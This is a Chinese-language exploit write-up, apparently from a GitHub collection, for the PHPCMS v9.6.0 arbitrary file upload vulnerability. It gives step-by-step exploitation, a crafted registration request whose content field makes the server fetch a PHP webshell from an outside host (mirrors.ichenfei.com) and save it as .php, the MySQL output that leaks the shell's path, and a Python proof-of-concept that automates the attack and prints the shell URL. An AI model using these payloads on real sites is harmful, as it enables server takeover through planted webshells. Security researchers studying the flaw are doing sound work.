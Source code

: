 
PHPCMS v9.6.0 任意文件上传漏洞
====================================

- [PHPcms9.6.0 最新版任意文件上传漏洞(直接getshell) ---- Freebuf](http://www.freebuf.com/vuls/131648.html)
	- Date: 2017-04-11
- [PHPCMS v9.6.0 任意文件上传漏洞分析 Seebug-paper](https://paper.seebug.org/273/)
	- Date: 2017-04-12
- [Phpcms v9漏洞分析 ---- Freebuf](http://www.freebuf.com/vuls/131809.html)
	- Date: 2017-04-17

#### 利用过程

1、首先在本地搭建一个php环境,在根目录下新建一个txt文本文件里面写上php一句话
```
http://mirrors.ichenfei.com/webshell/1.txt
```
2、进入注册页面,填写注册信息,打开`burpsuite`抓包,提交注册信息

![](images/reg.jpg)

3、将抓取的注册包发送到`Repeater`

##### 利用方式2:

使用`Hackbar`插件
```SQL
http://localhost/phpcms/phpcms_v9.6.0_UTF8/index.php?m=member&c=index&a=register&siteid=1
postdata:
siteid=1&modelid=11&username=avafc121&password=aasgfaewee311as&email=123456@qq.com&info[content]=<img src=http://mirrors.ichenfei.com/webshell/1.txt?.php#.jpg>&dosubmit=1&protocol=

MySQL Query : INSERT INTO `phpcmsv960`.`v9_member_detail`(`content`,`userid`) VALUES ('<img src=http://localhost/phpcms/phpcms_v9.6.0_UTF8/uploadfile/2017/1028/20171028105919538.php>','5')
MySQL Error : Unknown column 'content' in 'field list'
MySQL Errno : 1054
Message :
Need Help?
```
![](images/4.jpg)

参考poc:
```
siteid=1&modelid=11&username=zf1agac121&password=aasgfaewee311as&email=a1ea21f94@qq.com&info[content]=<img src=http://mirrors.ichenfei.com/webshell/1.txt?.php#.jpg>&dosubmit=1&protocol=
```
![](images/1.jpg)

可以看到repeater里MYSQL query成功插入

![](images/2.jpg)

POC:
```python
import re
import requests


def poc(url):
    u = '{}/index.php?m=member&c=index&a=register&siteid=1'.format(url)
    data = {
        'siteid': '1',
        'modelid': '1',
        'username': 'test',
        'password': 'testxx',
        'email': 'test@test.com',
        'info[content]': '<img src=http://url/shell.txt?.php#.jpg>',
        'dosubmit': '1',
    }
    rep = requests.post(u, data=data)

    shell = ''
    re_result = re.findall(r'&lt;img src=(.*)&gt', rep.content)
    if len(re_result):
        shell = re_result[0]
        print shell
```